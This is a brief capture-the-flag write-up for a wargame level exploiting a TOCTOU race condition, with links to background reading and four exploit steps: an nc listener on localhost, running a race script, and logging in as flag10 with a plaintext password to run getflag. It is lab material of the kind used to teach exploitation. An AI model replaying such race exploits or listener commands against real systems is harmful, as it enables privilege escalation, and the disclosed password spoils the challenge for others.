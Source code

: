 ### Documentation
[TOCTOU](https://medium.com/@schogini/toctou-time-of-check-and-time-of-use-a-demonstration-and-mitigation-609c999042cb)

[Race condition](https://defuse.ca/race-conditions-in-web-applications.htm)

### External
```
BASH  race
```

### Exploit
1. `./connect level09 nc -lk 127.0.0.1 6969`

2. `./send level10 race`

3. `./connect level09 ./race`

4. `su flag10` pass: woupa2yuojeeaaed06riuj63c
   ```bash
   getflag
   ```